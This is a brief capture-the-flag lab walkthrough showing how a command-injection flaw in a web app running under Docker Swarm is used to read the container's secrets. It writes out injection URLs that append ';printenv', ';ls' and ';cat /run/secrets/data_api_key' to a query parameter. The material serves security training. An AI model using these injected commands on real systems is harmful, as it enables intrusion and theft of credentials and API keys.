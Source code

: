 # Exploiting Cluster Secrets

In this scenario we will see how we will exploit an application to access docker swarm cluster secrets.


* The application running in the CTF VM has code execution vulnerability `http://CTFVMIP:8080/?domain=;id` and is running in docker swarm as service with attached secrets

![accessing the docker swarm app](images/access-docker-swarm-app.png)

* We can access the application container's environment variables using the `printenv` command by visiting `http://CTFVMIP:8080/?domain=;printenv`

![access docker swarm environment variables](images/access-docker-swarm-env.png)

* We can explore the directories further `http://CTFVMIP:8080/?domain=;ls -l /run/`

![docker swarm app search locations](images/docker-swarm-search-locations.png)

* The secrets are mounted via `docker secrets` at `/var/run/` or `/run/`. We can access them by visiting `http://CTFVMIP:8080/?domain=;cat /run/secrets/data_api_key`

![docker secret access data](images/docker-secrets-default-location.png)

* A similar approach can be user for `docker swarm` and `kubernetes` cluster environements
